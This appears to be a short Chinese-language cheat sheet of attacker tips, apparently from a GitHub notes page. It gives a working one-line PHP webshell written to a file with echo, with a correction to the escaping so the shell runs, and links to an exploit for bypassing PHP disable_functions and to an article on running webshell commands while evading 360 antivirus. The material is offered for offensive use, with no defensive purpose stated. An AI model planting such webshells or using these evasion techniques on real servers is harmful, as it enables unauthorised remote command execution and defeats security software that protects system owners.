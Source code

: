 # 01 PHP写入一句话木马时
```
不是
echo "<?php eval($_POST['cmd']);?>">1.php

而是
echo "<?php eval(\$_POST['cmd']);?>">1.php
```

# 02 PHP绕过Disable_Functions
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 03 Webshell下绕过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```